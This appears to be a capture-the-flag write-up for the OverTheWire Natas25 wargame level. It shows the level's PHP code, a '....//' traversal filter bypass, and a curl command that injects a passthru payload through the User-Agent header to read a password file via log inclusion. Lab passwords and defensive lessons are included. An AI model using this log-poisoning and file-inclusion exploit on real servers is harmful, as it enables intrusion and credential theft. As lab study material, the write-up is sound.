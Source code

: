 ```yaml
---
category: natas
title: Natas25 - Local File Inclusion and Code Injection
---
```


website: http://natas25.natas.labs.overthewire.org/ (password: GHF6X7YwACaYYssHVY05cFq83hRktl4c)

In this challenge, a web page with different language will be displayed based on the option. It also has logging mechanism in case of errors. Some major codes are provided below:


```php
function safeinclude($filename){
    // check for directory traversal
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    // dont let ppl steal our passwords
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...
 
    if (file_exists($filename)) {
        include($filename);
        return 1;
    }
    return 0;
}
 
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n";
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
```

As shown above, it uses file inclusion to display different language web pages. To avoid directory traverse, it also filters string "../".
Moreover, when logging an exception, it will retrieve the header `HTTP_USER_AGENT` from an HTTP request.

To overcome this challenge, we need to answer following questions:

1. <strong>How to bypass the filtering of "../"?</strong>
To achieve this goal, we can provide "....//" in the URL. This is obvious because the "../" will be replaced as an empty string, leaving the first two dots and the last slash as the rest,
which now compose a new "../".
With the help of this trick, we can bypass the filtering and make the directory traversal possible.

2. <strong>How to get the file content "natas_webpass/natas26"?</strong>
One cannot access this file directly because the keyword "natas_webpass" is filtered. However, we notice that the application writes the header `HTTP_USER_AGENT` into a log file without any validation.
This HTTP header indicates what the client a user is using and comes from the HTTP request.
That means, as a hacker, we can manipulate this header by injecting PHP code. Here we inject `<? passthru("cat /etc/natas_webpass/natas26") ?>` as the header.
That way the file content will be written into a log file and later can be accessed via local file inclusion.

The complete solution is provided below, which reveals natas26's password is <small>oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T</small>.


```shell
$ curl -su natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c 'http://natas25.natas.labs.overthewire.org/?lang=....//logs/natas25_hello.log' \
       --cookie 'PHPSESSID=hello' \
       --user-agent '<?passthru("cat /etc/natas_webpass/natas26")?>'
... <skipped>

[09.07.2021 19::08:48] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
 "Directory traversal attempt! fixing request."

... <skipped>
```


<strong>CONCLUSION</strong>

Lessons that we learned from this challenge:
- Be careful with file inclusion. If you use a file inclusion in your code, it's ideal to use a whitelist for accessible files.
If a whitelist is not available, then at least sanitizing the input.
- Directory traversal can be a high risk in many cases. It allows a hacker to jump between your local files. Make sure you use it correctly.
- Whenever retrieving HTTP request headers and payloads, validation is needed because they can be crafted by users.

